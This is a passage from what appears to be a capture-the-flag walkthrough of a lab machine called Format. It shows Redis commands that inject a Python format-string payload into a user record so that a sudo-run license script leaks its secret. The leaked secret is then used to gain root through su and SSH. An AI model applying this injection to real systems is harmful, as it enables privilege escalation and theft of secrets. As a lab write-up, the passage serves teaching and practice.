 #### Execute

In Redis, I’ll start with a new user, rooted:

    
    
    redis /var/run/redis/redis.sock> hset rooted username rooted
    (integer) 1
    redis /var/run/redis/redis.sock> hset rooted first-name "password:"
    (integer) 1
    redis /var/run/redis/redis.sock> hset rooted last-name "{license.__init__.__globals__[secret]}"
    (integer) 1
    

I’ve made the first name `password:` to show easily where the secret starts.
Running the script now prints the unencrypted key:

    
    
    cooper@format:~$ sudo license -p rooted
    
    Plaintext license key:
    ------------------------------------------------------
    microblogrooted/%QIQ#0?qCGURyI8}RZrdh>#l^L`P7XbP#n@*'a*password:unCR4ckaBL3Pa$$w0rd
    
    Encrypted license key (distribute to customer):
    ------------------------------------------------------
    gAAAAABkYqXC2Xp3JGFVI__uSfLXpBzX84cyRMkAtN5tYqc3CgN8qGmQ70FWSBwn4RVPgKRVgfh0UqkoXO007-QouG9IaUKUygOQAr5TXp2ItrC5eANNlSpeyC37bi9KRF4nRCW4YmebU2_nr0HC8w9gIVfFo2XyjHkYlACttPbHmlQ61mc-8dE5CP6-bUWLBnIcmHqMXF06
    

The secret is `unCR4ckaBL3Pa$$w0rd`.

### su / SSH

That secret works as the password for root via `su`:

    
    
    cooper@format:~$ su -
    Password: 
    root@format:~#
    

and SSH:

    
    
    oxdf@hacky$ sshpass -p 'unCR4ckaBL3Pa$$w0rd' ssh root@10.10.11.213
    ...[snip]...
    root@format:~# 
    

I’m able to grab `root.txt`:

    
    
    root@format:~# cat root.txt
    aca96cee************************
    

## Beyond Root - Two Patched Unintendeds

